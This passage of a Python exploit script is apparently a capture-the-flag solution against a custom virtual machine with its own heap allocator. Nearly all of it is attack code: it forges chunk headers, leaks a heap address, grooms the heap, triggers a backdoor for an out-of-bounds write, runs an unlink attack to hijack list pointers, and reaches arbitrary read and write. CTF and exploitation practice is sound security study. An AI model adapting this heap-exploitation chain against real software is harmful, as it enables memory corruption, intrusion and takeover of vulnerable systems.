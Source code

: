 ```python
    size, prev_size = size >> 4, prev_size >> 4
    chksum = (size >> 8) ^ (size & 0xFF) ^ flags
    head = size | (flags << 16) | (chksum << 24) | (prev_size << 32) | (segment_offset << 48) | (unused_bytes << 56)
    return head

# Leak FileHeap's address
code =  add_reg_imm(0, 7, 0, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0, 8) + add_reg_imm(3, 7, 8, 8) + syscall()           # read stdin
code += add_reg_imm(0, 7, 2, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0, 8) + syscall()                                     # open file 3
code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 3, 8) + add_reg_imm(2, 7, 0, 8) + add_reg_imm(3, 7, 8, 8) + syscall()           # write file 3
code += call(0xFFE)

# BufferHeap Fengshui to do unlink attack
code += add_reg_imm(0, 7, 2, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0, 8) + syscall()                                     # open file 4
code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 4, 8) + add_reg_imm(2, 7, 0, 8) + add_reg_imm(3, 7, 0x38, 8) + syscall()        # write file 4
code += add_reg_imm(0, 7, 2, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0, 8) + syscall()                                     # open file 5
code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 5, 8) + add_reg_imm(2, 7, 0, 8) + add_reg_imm(3, 7, 0x38, 8) + syscall()        # write file 5
code += add_reg_imm(0, 7, 2, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0, 8) + syscall()                                     # open file 6
code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 6, 8) + add_reg_imm(2, 7, 0, 8) + add_reg_imm(3, 7, 0x38, 8) + syscall()        # write file 6

# Trigger backdoor to do OOB write
code += add_reg_imm(6, 7, 0x100, 16) + div_reg_reg(0, 7, 6, 8)

# OOB write to hijack chunk head and Flink, Blink
code += add_reg_imm(0, 7, 0, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0, 8) + add_reg_imm(3, 7, 0x50, 8) + syscall()        # read stdin
code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 4, 8) + add_reg_imm(2, 7, 0, 8) + add_reg_imm(3, 7, 0x50, 8) + syscall()        # write file 4 (OOB write)

# Do unlink attack
code += add_reg_imm(0, 7, 3, 8) + add_reg_imm(1, 7, 4, 8) + syscall()                                                               # close file 4

# now use file 5 to control the struct of file 6 and achieve arbitrary read and write
code += add_reg_imm(0, 7, 0, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0x8, 8) + add_reg_imm(3, 7, 0x38, 8) + syscall()      # read stdin
code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 5, 8) + add_reg_imm(2, 7, 0x8, 8) + add_reg_imm(3, 7, 0x38, 8) + syscall()      # write file 5
code += add_reg_imm(0, 7, 0, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0, 8) + add_reg_imm(3, 7, 0x8, 8) + syscall()         # read stdin
code += add_reg_imm(0, 7, 0, 8) + add_reg_imm(1, 7, 6, 8) + add_reg_imm(2, 7, 0x8, 8) + add_reg_imm(3, 7, 0x8, 8) + syscall()       # read file 6
code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 1, 8) + add_reg_imm(2, 7, 0, 8) + add_reg_imm(3, 7, 0x10, 8) + syscall()        # write stdout

# arbitrary read
for i in range(4):
    code += add_reg_imm(0, 7, 0, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0x8, 8) + add_reg_imm(3, 7, 0x38, 8) + syscall()  # read stdin
    code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 5, 8) + add_reg_imm(2, 7, 0x8, 8) + add_reg_imm(3, 7, 0x38, 8) + syscall()  # write file 5
    code += add_reg_imm(0, 7, 0, 8) + add_reg_imm(1, 7, 6, 8) + add_reg_imm(2, 7, 0x8, 8) + add_reg_imm(3, 7, 0x8, 8) + syscall()   # read file 6
```